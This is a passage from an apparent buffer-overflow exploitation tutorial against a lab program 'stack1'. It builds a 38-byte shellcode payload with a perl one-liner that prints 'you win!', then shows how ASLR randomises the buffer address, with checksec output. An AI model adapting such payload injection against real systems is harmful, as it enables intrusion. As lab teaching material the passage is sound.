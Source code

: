 ```nasm
 8048077: 6e                    outs   dx,BYTE PTR ds:[esi]
 8048078: 21 0a                 and    DWORD PTR [edx],ecx
```

Extract opcodes to create the required shellcode and calculate its size:

```bash
# perl -e 'print "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x0a"' >shellcode.bin
#
# ls -lh shellcode.bin
-rw-r--r-- 1 seed seed 38 2012-08-27 02:41 shellcode.bin
```

Now we are ready with the shellcode that simulates the `puts` call. Once
we inject it, we would need the address of the buffer where this
shellcode will eventually land. Looking at the source and through the
earlier test executions of the `stack1` program, you already know that
it prints out the address of the `buf` and the `cookie` variables. But
we cannot just use the address from an earlier execution for our
exploit. Why is this so? If you had noticed earlier, both `buf` and
`cookie`, although adjacent and aligned as expected, had different
address on each invocation:

```bash
# ./stack1
buf: bfc21614 cookie: bfc21664
AAAA
#
# ./stack1
buf: bf9ad354 cookie: bf9ad3a4
AAAA
#
# ./stack1
buf: bfd7c3d4 cookie: bfd7c424
AAAA
#
```

You would have already guessed by now. It is due to the `ASLR`
mitigation feature that is active on the test system:

```bash
# cat /proc/sys/kernel/randomize_va_space
2
#
# ./checksec.sh --proc init
* System-wide ASLR (kernel.randomize_va_space): On (Setting: 2)

  Description - Make the addresses of mmap base, heap, stack and VDSO page randomized.
  This, among other things, implies that shared libraries will be loaded to random
  addresses. Also for PIE-linked binaries, the location of code start is randomized.

  See the kernel file 'Documentation/sysctl/kernel.txt' for more details.

* Does the CPU support NX: Yes

         COMMAND    PID RELRO             STACK CANARY           NX/PaX        PIE
            init      1 Full RELRO        Canary found           NX enabled    PIE enabled
```
